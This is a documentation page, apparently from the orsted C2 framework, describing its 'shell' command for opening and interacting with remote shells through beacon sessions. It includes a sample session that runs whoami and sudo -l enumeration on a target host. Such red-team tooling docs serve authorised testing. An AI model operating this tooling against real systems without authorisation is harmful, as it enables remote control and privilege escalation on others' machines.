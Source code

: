 ```yaml
---

title: shell
description: orsted c2 shell
---
```


### General

`shell` allows you to start a shell and interact with it.

It is not Opsec.

```
[Session 9: haroun@DESKTOP-DU89UIV] » shell --help

start and interact with shell (not opsec)

Usage:
  shell [flags]

Flags:
  -h, --help     display help

Sub Commands:
  interact  interact with interactive shell
  list      list all interactive shell
  start     start interactive shell
```

It requires you to load the `shell` SO with `load-module shell`.


### Shell Start

You can start a shell with 

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » shell start
```

### List Shells

You can list shells with

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » shell list
```

You will receive the list of PIDs of the shells

```
[Session 9: haroun@DESKTOP-DU89UIV] » shell list
+--------+-----------+---------+------------+
| TASKID | SESSIONID |  STATE  |  COMMAND   |
+--------+-----------+---------+------------+
|     73 |         9 | pending | shell list |
+--------+-----------+---------+------------+
[Session 9: haroun@DESKTOP-DU89UIV] »
Started Shells
--------------
1540
```

### Interact with Shell

You can interact with a specific shell with

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » shell interact 6596
```

The result will be something like

```
[Session 15: haroun@DESKTOP-DU89UIV] » shell interact 1540
+--------+-----------+---------+---------------------------+
| TASKID | SESSIONID |  STATE  |          COMMAND          |
+--------+-----------+---------+---------------------------+
|    157 |        15 | pending | shell interact-start 1540 |
+--------+-----------+---------+---------------------------+
< Will Interact with Shell >
haroun@DESKTOP-DU89UIV:/mnt/c/Users/haroun$ whoami
whoami
haroun
haroun@DESKTOP-DU89UIV:/mnt/c/Users/haroun$ sudo -l
sudo -l
[sudo] password for haroun: haroun

Matching Defaults entries for haroun on DESKTOP-DU89UIV:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User haroun may run the following commands on DESKTOP-DU89UIV:
    (ALL : ALL) ALL
haroun@DESKTOP-DU89UIV:/mnt/c/Users/haroun$
```

To go back the menu just press `<CTRL+C>` then `<Enter>`

PS: 
- It is recommended to decrease `sleep` of the beacon (see - `sleep`)
- The shell is a pty - You can do sudo -l, use less, but don't try to super abuse it :p
